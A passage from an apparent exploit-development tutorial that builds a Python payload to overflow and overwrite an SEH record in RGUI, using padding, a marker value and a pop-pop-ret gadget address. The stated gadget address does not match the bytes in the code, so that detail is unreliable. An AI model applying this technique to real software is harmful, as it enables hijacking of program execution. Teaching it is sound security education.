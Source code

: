 ### Overwriting SEH Record and Subverting Code Execution Flow

We now know that our payload should look like this:

![](../../../.gitbook/assets/image%20%281017%29.png)

So wen can start building our python exploit skeleton as shown below:

{% code title="exploit.py" %}
```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
payload += b"BOOM"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

f.write(payload)
f.close()
```
{% endcode %}

Executing `exploit.py` will create `payload.txt` with our payload, which when sent to the RGUI, will overflow the SEH record and overwrite it in the following way:

1. The next SEH record will contain the bytes `42 4F 4F 4D`, representing the string `BOOM`;
2. The current SEH handler will point to `0x637412c8` that contains `pop pop ret` instructions.

Below shows the `payload.txt` file contents:
